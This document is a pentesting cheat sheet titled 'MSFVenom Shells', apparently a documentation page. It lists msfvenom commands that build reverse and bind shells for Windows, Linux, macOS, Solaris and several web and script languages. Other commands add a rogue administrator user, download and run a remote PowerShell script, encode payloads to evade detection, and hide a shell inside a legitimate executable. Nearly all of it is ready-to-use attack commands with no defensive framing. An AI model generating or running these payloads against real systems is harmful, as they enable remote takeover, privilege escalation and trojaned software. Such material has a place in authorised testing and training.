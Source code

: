 ```yaml
---
title: "MSFVenom Shells"
draft: false
description: "Some useful msfvenom shells"
lead: "Some useful msfvenom shells"
images: []
menu:
  docs:
    parent: "Shells"
weight: 3
toc: true
---
```


## Windows

### <span style="color:#b31d36"> Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### <span style="color:#b31d36"> Bind Shell
```
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
### <span style="color:#b31d36"> Create User
```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### <span style="color:#b31d36"> CMD Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### <span style="color:#b31d36"> Execute Command
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
```
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### <span style="color:#b31d36"> Encoder
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### <span style="color:#b31d36"> Embedded inside executable
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

---
## Linux Payloads
### <span style="color:#b31d36"> Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
```
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
### <span style="color:#b31d36"> Bind Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### <span style="color:#b31d36"> SunOS (Solaris)
```
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
---
## MAC Payloads
### <span style="color:#b31d36"> Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
### <span style="color:#b31d36"> Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
---
## Web Based Payloads
### <span style="color:#b31d36"> PHP
### <span style="color:#b31d36"># Reverse shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
```
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### <span style="color:#b31d36"> ASP/x
### <span style="color:#b31d36"># Reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
### <span style="color:#b31d36"> JSP
### <span style="color:#b31d36"># Reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
### <span style="color:#b31d36"> WAR
### <span style="color:#b31d36"># Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
### <span style="color:#b31d36"> NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
---
## Script Language payloads
### <span style="color:#b31d36"> Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
### <span style="color:#b31d36"> Python
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### <span style="color:#b31d36"> Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw
```